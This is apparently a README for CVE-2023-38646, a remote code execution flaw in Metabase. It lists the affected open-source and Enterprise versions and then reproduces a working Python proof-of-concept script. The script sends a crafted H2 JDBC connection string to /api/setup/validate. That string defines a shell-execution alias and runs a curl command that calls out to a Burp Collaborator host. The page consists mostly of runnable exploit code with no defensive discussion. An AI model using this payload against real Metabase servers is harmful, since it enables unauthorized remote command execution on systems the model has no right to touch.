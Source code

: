 
## CVE-2023-38646

## 影响版本
Metabase open source 0.46 < 0.46.6.1  
Metabase open source 0.45 < v0.45.4.1  
Metabase open source 0.44 < 0.44.7.1  
Metabase open source 0.43 < 0.43.7.2  
Metabase Enterprise 1.45 < 1.45.4.1  
Metabase Enterprise 1.46 < 1.46.6.1  
Metabase Enterprise 1.44 < 1.44.7.1  
Metabase Enterprise 1.43 < 1.43.7.2  

## python脚本
```

# https://github.com/0xrobiul/CVE-2023-38646

import requests
import argparse
from colorama import Fore, Style
Gcyan = Fore.YELLOW + Style.BRIGHT
Cyan = Fore.CYAN + Style.BRIGHT
STOP = Style.RESET_ALL
logo = '''
   _____   _____   ___ __ ___ ____   ____ ___   __ _ _   __ 
  / __\ \ / / __|_|_  )  \_  )__ /__|__ /( _ ) / /| | | / / 
 | (__ \ V /| _|___/ / () / / |_ \___|_ \/ _ \/ _ \_  _/ _ \\
  \___| \_/ |___| /___\__/___|___/  |___/\___/\___/ |_|\___/
                                                            
'''
print(Gcyan + logo + STOP)
print(Cyan + "The PoC Finder!!" + STOP + Gcyan + "   By: 0xRobiul\n" + STOP)


parser = argparse.ArgumentParser()
parser.add_argument("-u", "--url", type=str, required=True, help="Target URL.")
parser.add_argument("-t", "--token", type=str, required=True, help="Setup-Token From /api/session/properties .")
parser.add_argument("-c", "--collabrator", type=str, required=True, help="Burp Collabrator Client.")
args = parser.parse_args()

url = args.url + "/api/setup/validate"
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "application/json", "Content-Type": "application/json", "Connection": "close"}
payload={"details": {"details": {"advanced-options": True, "classname": "org.h2.Driver", "subname": "mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS SHELLEXEC AS $$ void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(new String[]{\"sh\", \"-c\", cmd})\\;}$$\\;CALL SHELLEXEC('curl -d key=0xRobiul " + args.collabrator +"');", "subprotocol": "h2"}, "engine": "postgres", "name": "x"}, "token": args.token}
attk = requests.post(url, headers=headers, json=payload)

print(Cyan + "Done!! Check Burp Colabrator!!" + STOP)
```


